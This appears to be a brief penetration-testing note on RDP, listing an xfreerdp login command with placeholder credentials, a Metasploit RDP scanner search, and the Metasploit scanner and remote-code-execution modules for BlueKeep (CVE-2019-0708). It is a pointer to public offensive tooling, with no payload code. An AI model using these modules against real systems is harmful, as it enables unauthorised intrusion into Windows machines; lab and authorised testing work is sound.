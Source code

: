 ![[Pasted image 20221208070511.png]]

```bash

xfreedp /u:USER /p:PASS /v:IP:PORT

```


# Metasploit

```bash

search rdp_scanner # Check for rdp service running on a port 

```


# CVE-2019-0708 BlueKeep

## Metasploit

```bash

auxiliary/scanner/rdp/cve_2019_0708_bluekeep

exploit/windows/rdp/cve_2019_0708_bluekeep_rce 

```